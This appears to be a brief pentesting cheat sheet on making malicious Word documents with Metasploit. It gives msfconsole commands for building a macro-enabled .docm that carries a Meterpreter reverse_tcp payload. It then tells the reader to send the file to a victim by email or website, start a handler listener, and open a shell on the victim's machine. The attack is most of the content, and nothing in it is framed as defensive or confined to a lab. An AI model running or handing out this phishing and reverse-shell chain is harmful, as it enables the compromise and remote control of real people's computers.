 # Malicious Word Documents using MsfConsole

We can easily generate a malicious word documents via `msfconsole` in Linux.

## Usage

### 1. Create MalDocs

We can create a malicious word documents using `msfconsole` in Linux.

```bash
msfconsole
msf> set payload windows/meterpreter/reverse_tcp
msf> use exploit/multi/fileformat/office_word_macro
msf> set FILENAME evil.docm
msf> set LHOST <your-ip>
msf> set LPORT <your-port>
msf> run
```

### 2. Send MalDocs to Victim

After the `~/.msf4/local/evil.docm` is generated, send this file to a victim via Emails, Website, or something else.

### 3. Start Listener

In our local machine, start listener to receive incoming requests:

```bash
msfconsole
msf> use exploit/multi/handler
msf> set payload windows/meterpreter/reverse_tcp
msf> set LHOST <your-ip>
msf> set LPORT <your-port>
msf> run
```

### 4. Gain Shell

When a victim executed our maldocs, we can receive incoming request and get a shell.  
In Meterpreter, we can drop a command shell with the `shell` command:

```bash
meterpreter> shell
```
